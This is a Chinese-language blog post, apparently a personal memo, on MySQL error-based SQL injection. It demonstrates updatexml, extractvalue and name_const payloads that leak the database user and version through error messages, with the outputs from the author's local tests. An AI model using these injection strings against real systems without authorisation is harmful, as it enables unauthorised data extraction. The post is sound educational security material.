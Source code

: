 ```yaml
---
layout: post
title:  "SQL报错注入"
date:   2018-01-06 21:41:45 +0800
categories: [SQL, 报错注入]
---
```

#Sql注入之报错注入

>本来在上一篇文章中本来说了要把报错注入和出错的原因写完的，但是想了下大多数的报错并不像双查询报错那样原理复杂，很多只是函数的问题，所以这一篇就单纯的作为报错的备忘录，稍带原理

1.**Updatexml报错**
```mysql
mysql> help updatexml
Name: 'UPDATEXML'
Description:
Syntax:
UpdateXML(xml_target, xpath_expr, new_xml)

This function replaces a single portion of a given fragment of XML
markup xml_target with a new XML fragment new_xml, and then returns the
changed XML. The portion of xml_target that is replaced matches an
XPath expression xpath_expr supplied by the user.

If no expression matching xpath_expr is found, or if multiple matches
are found, the function returns the original xml_target XML fragment.
All three arguments should be strings.

URL: http://dev.mysql.com/doc/refman/5.7/en/xml-functions.html

Examples:
mysql> SELECT
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/a', '<e>fff</e>') AS val1,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/b', '<e>fff</e>') AS val2,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '//b', '<e>fff</e>') AS val3,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e>') AS val4,
    ->   UpdateXML('<a><d></d><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e>') AS val5
    -> \G

*************************** 1. row ***************************
val1: <e>fff</e>
val2: <a><b>ccc</b><d></d></a>
val3: <a><e>fff</e><d></d></a>
val4: <a><b>ccc</b><e>fff</e></a>
val5: <a><d></d><b>ccc</b><d></d></a>
```
可见函数要求第二个参数为xpath格式的字符串，否则就爆出符号错误
```mysql
mysql> select * from users where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'
```
2 . **Extractvalue报错**
这个函数和updatexml一样，都是对xml格式数据进行操作，第二个参数也为xpath格式字符串，具体可以help
```mysql
mysql> select * from users where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'
```
3 . **Name_const报错**
首先在这里补一个背景知识
1. 在4.1版本后的mysql中支持subquery：也就是一个查询的结果可以作为另一个查询的from对象，可以说是像这样（select * from(select * from a)x）嵌套查询，这里的x是as x的意思也就是alias，子查询需要alias成一个符号才不会报错

ok，先来看看name_cast的help文档
```mysql
mysql> help name_const
Name: 'NAME_CONST'
Description:
Syntax:
NAME_CONST(name,value)

Returns the given value. When used to produce a result set column,
NAME_CONST() causes the column to have the given name. The arguments
should be constants.

mysql> SELECT NAME_CONST('myname', 14);
+--------+
| myname |
+--------+
|     14 |
+--------+

URL: http://dev.mysql.com/doc/refman/5.7/en/miscellaneous-functions.html
```
这是根据name和value生成一个column的函数，结合前面的背景知识我们可以试图构造出和双查询类似的具有相同key值的错误，不过可惜这个利用在高版本中被要求为constants，不然就会先报这个错误，等于是加了个检测，但是在下面的测试中我发现有意外
```mysql
mysql> select * from users where id=1 and (select * from (select name_const(version(),1),name_const(version(),1))a);
ERROR 1060 (42S21): Duplicate column name '5.7.17'
mysql> select * from users where id=1 and (select * from (select name_const(database(),1),name_const(database(),1))a);
ERROR 1210 (HY000): Incorrect arguments to NAME_CONST
mysql> select * from users where id=1 and (select * from (select name_const((select 1),1),name_const((select 1),1))a);
ERROR 1210 (HY000): Incorrect arguments to NAME_CONST
```
发现了吧 version()还是可以爆出来的...

还有一些网上写的函数发现本地没有爆出来，就暂时不写上来了，下一篇盲注